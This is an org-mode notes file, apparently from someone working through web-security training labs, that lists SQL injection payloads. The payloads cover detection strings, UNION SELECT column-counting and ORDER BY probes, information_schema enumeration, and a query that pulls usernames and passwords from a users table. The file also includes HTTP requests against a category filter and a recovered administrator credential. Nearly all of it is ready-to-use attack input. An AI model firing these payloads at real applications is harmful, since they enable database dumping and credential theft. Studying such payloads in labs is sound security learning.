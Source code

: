 -*- org-emphasis-alist: (("*" bold) ("/" italic) ("_" underline) ("=" org-verbatim verbatim) ("~" org-code verbatim) ("+" (:strike-through nil))); -*-
* SQL injection payloads
* breaking/detection
'
'OR+1=1
* determine-number-of-colums
'+UNION+SELECT+NULL--
'+UNION+SELECT+NULL,NULL--
'+UNION+SELECT+NULL,NULL,NULL--
'+UNION+SELECT+NULL,NULL,NULL,NULL--
'+UNION+SELECT+NULL,NULL,NULL,NULL,NULL--
'+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL--
'+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL--
* text-colums
'+UNION+SELECT+'a'--
GET /filter?category=Gifts'+UNION+SELECT+NULL-- HTTP/1.1
* 
** LAB SQL injection UNION attack, determining the number of columns returned by the query
'+ORDER+BY+1--
'+ORDER+BY+2--
'+ORDER+BY+3--

'+UNION+SELECT+NULL--
'+UNION+SELECT+NULL,NULL--
'+UNION+SELECT+NULL,NULL,NULL--
** LAB SQL injection UNION attack, finding a column containing text
** LAB SQL injection UNION attack, retrieving data from other tables
'+UNION+SELECT+'text','text'--
'+UNION+SELECT+table_name,column_name+FROM+information_schema.columns--

'+UNION+SELECT+username+||+'~'+||+password+FROM+users--
username+||+'~'+||+password+FROM+users--

administrator~148sst


GET /filter?category=Lifestyle'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users-- HTTP/1.1

select john from users 
